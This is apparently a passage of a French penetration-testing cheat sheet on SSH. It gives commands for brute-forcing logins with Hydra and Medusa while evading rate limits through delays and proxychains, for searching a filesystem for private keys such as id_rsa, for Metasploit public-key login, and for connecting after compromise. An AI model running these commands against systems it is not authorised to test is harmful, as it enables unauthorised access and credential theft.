 
## Phase 5: Techniques avancées d'évasion

### Contournement du rate limiting

#### Délais entre tentatives
```bash
# Hydra avec délais
hydra -L users.txt -P passwords.txt ssh://<target> -W 2 -t 1

# Medusa avec timing
medusa -h <target> -U users.txt -P passwords.txt -M ssh -T 2
```

#### Rotation d'IP sources (si disponible)
```bash
# Avec proxychains
proxychains hydra -L users.txt -P passwords.txt ssh://<target>
```

### Authentification par clés SSH

#### Énumération des clés publiques
```bash
# Test d'acceptation de clés
nmap --script ssh-publickey-acceptance --script-args="ssh.usernames={'root','admin'}" <target>

# Recherche de clés exposées
find / -name "*.pub" 2>/dev/null
find / -name "id_rsa*" 2>/dev/null
```

#### Attaque par clés SSH
```bash
# Avec Metasploit
use auxiliary/scanner/ssh/ssh_login_pubkey
set RHOSTS <target>
set USERNAME root
set KEY_FILE /path/to/id_rsa
run
```

---

## Phase 6: Post-exploitation

### Établissement de session

#### Connexion SSH directe
```bash
# Avec mot de passe
ssh <username>@<target>

# Avec clé privée
ssh -i <private_key> <username>@<target>

# Avec port personnalisé
ssh -p <port> <username>@<target>
```

